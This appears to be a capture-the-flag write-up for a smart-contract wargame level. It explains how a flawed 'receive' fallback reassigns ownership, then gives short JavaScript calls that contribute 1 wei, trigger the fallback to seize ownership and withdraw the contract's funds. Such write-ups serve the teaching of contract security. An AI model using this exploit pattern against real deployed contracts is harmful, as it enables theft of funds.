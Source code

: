 ## 1) Catch
The poorly implemented fallback function "receive" changes an important logic of the contract
assigning the ownership to the last person who triggered this fallback by doing one this actions:
- Calling an non existing function
- Calling an existing function without passing required data
- Sending ether to the contract without any data

## 2) Solutions
- Wasting too much time and effort depositing 1001 times 0.001 ether each time so the ownership changes.
- Triggering the fallback function.

### Approach b) Sending 1wei to the contract will trigger the fallback function.

        await contract.contribute({value: 1}) // Because of the logic of the fallback, the user must contribute first.

        // Here is where the fallback is triggered
        await contract.sendTransaction({
        from: player,
        value: 1
        })

        // Because you are now the owner, this txn will go through.
        await contract.withdraw()
